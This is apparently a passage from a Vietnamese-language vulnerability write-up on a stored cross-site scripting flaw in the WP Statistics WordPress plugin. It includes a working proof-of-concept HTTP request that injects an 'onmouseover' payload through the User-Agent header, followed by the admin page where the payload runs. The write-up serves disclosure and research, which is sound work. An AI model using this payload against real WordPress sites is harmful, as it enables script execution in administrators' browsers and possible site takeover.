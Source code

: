 1. Attacker gửi UA chứa payload XSS trong model
2. Model chứa payload được lưu trong database
3. Admin mở tab models => payload chạy.

---

## Exploit
### Proof of Concept (PoC)

- Gửi request chứa XSS payload:

```http
POST /wp-json/wp-statistics/v2/hit HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Linux; Android 14; Goly "onmouseover=alert()-" Build) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/120.0.0.0 Mobile Safari/537.36

wp_statistics_hit=1&source_type=home&source_id=0&search_query=&signature=787b07b8979cb982ec89a4f103a68081&endpoint=hit&referred=&page_uri=Lw%3D%3D
```

- Admin truy cập endpoint và hover vào model chứa payload:

```
http://localhost/wp-admin/admin.php?page=wps_devices_page&tab=models
```

![Result — PoC execution screenshot](assets/img/posts/2025-09-30-CVE-2025-9816/result.png)
_Trình duyệt thực thi JavaScript khi admin truy cập._